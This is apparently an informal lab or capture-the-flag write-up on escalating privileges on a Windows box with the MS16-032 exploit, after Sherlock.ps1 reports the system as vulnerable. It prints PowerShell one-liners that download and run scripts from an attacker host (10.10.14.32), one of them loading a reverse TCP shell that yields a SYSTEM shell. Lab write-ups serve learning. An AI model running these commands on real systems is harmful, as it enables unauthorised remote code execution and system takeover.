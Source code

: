 After checking how sherlock work 

[[2. Sherlock.ps1]]

I used it on this system and found out the the system is vulnerable to 

1. MS16-032
2. MS16-135

So i will try both 


For MS16-032


got https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1



Now i used below script 
─(root💀kali)-[/usr/…/server/data/module_source/privesc/Invoke-MS16032.ps1 

Add this athe end of the file:

Invoke-MS16032 -Command iex(New-Object Net.WebClient).DownloadString(‘http://10.10.14.32/reverse.ps1')



Now in the foothold session i added this:


IEX(New-Object Net.Webclient).downloadString('http://10.10.14.32/Invoke-MS16032.ps1')

Dont forget to add the - in Ms16-032 at the end of 
Invoke-MS16032.ps1 


Now i wasted 4-5 hrs of my life getting NT/Authority System


i got multiple errors

Thing to keep in mind is
used a seperate powershell script

Invoke-MS16032 -Command "iex(New-Object Net.WebClient).DownloadString('http://10.10.14.32/Invoke-PowerShellTcp2.ps1')"


with running a listener on port 4444 and on that listener i got a System shell


